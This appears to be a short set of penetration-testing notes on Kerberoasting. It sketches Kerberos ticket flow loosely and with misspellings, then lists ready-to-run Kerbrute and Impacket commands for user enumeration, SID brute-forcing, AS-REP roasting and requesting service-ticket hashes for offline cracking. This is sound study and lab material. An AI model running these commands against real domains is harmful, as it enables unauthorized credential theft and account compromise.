 # Kerberoas

---
# Navigation
- **[[#Definition]]**
- **[[#Kerberoasting]]**
	- [[#Kerbrute]]
	- [[#Kerberoasting]] 
- **[[#Synchronizing time is important]]**
- **[[#Further reading]]**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method (my recommendation)
sudo apt install rdate
sudo rdate -n <DC>

#Third method 
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>

#Fourth method (xct notes)
sudo date -s "$(curl -sI <Target> | grep -i '^date:'|cut -d' ' -f2-)"
```
 # Further reading
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- Explained -> [**Kerberoasting**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

